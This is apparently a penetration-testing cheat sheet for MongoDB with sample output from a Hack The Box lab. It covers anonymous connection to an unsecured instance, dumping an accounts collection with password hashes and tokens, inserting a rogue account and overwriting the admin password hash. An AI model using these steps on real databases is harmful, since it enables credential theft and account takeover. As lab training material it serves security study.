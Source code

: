 ```yaml
---
title: "MongoDB General"
date: 2024-6-27
tags: ["Database Dumping", "Mongodb", "Database", "Enumeration"]
---
```


### General

#### Connect to Mongo Database

{{< tab set1 tab1 active >}}anonymous{{< /tab >}}
{{< tab set1 tab2 >}}authenticate{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
mongosh <TARGET>:27017
```

```console {class="sample-code"}
$ mongosh 172.17.0.3:27017
Current Mongosh Log ID: 66f2fa2192b07a1eeb856ec6
Connecting to:          mongodb://172.17.0.3:27017/?directConnection=true&appName=mongosh+2.2.12
Using MongoDB:          5.0.6
Using Mongosh:          2.2.12

For mongosh info see: https://docs.mongodb.com/mongodb-shell/

------
   The server generated these startup warnings when booting
   2024-09-24T10:44:22.876+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
   2024-09-24T10:44:23.824+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
------

Warning: Found ~/.mongorc.js, but not ~/.mongoshrc.js. ~/.mongorc.js will not be loaded.
  You may want to copy or rename ~/.mongorc.js to ~/.mongoshrc.js.
test> 
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Connect local with creds and specified database
mongo -u <USER> -p '<PASSWORD>' <DB_NAME>
```

{{< /tabcontent >}}

#### Basic Commands

```console
# Show all databases
show dbs
```

```console {class="sample-code"}
test> show dbs
admin    132.00 KiB
config    72.00 KiB
local     88.00 KiB
trudesk    1.01 MiB
```

```console
# Choose database
use <DB_NAME>
```

```console {class="sample-code"}
test> use trudesk
switched to db trudesk
```

```console
# Show all collections
show collections
```

```console {class="sample-code"}
trudesk> show collections
accounts
counters
departments
groups
messages
...[SNIP]...
```

```console
# Show all of the collection
db.<COLLECTION_NAME>.find().pretty()
```

```console {class="sample-code"}
trudesk> db.accounts.find().pretty()
[
  {
    _id: ObjectId('623c8b20855cc5001a8ba13c'),
    preferences: {
      tourCompleted: false,
      autoRefreshTicketGrid: true,
      openChatWindows: []
    },
    hasL2Auth: false,
    deleted: false,
    username: 'admin',
    password: '$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS',
    fullname: 'Robert Frost',
    email: 'rfrost@carpediem.htb',
    role: ObjectId('623c8b20855cc5001a8ba138'),
    title: 'Sr. Network Engineer',
    accessToken: '22e56ec0b94db029b07365d520213ef6f5d3d2d9',
    __v: 0,
    lastOnline: ISODate('2022-04-07T20:30:32.198Z')
  },
...[SNIP]...
```

```console
# Insert entry into collections
db.<COLLECTION_NAME>.insert({"<key>": "<value>"})
```

```console {class="sample-code"}
trudesk> db.accounts.insert({_id: ObjectId('33f3b8a827983e3773023633'),preferences: {tourCompleted: false,autoRefreshTicketGrid: true,openChatWindows: []},hasL2Auth: false,deleted: false,username: 'test',password: '$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS',fullname: 'Test USer',email: 'test@carpediem.htb',role: ObjectId('623c8b20855cc5001a8ba138'),title: 'Test',accessToken: '3fd5a5e64963cd4b973480032125011568fee525',__v: 0,lastOnline: ISODate('2022-04-07T20:30:32.198Z')})
{
  acknowledged: true,
  insertedIds: { '0': ObjectId('33f3b8a827983e3773023633') }
}
```

```console
# Update an entry (e.g. password of user)
db.<COLLECTION_NAME>.updateOne({"username": "user"}, {$set: {"password": "password"}});
```

```console {class="sample-code"}
trudesk> db.accounts.updateOne({"username":"admin"}, {$set:{"password":"$2b$04$gj6qKJ4AhURmyt1wnUfPsOPebiur236k1m57BwteWHDV2fzJL74Yq"}})
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 0,
  upsertedCount: 0
}
```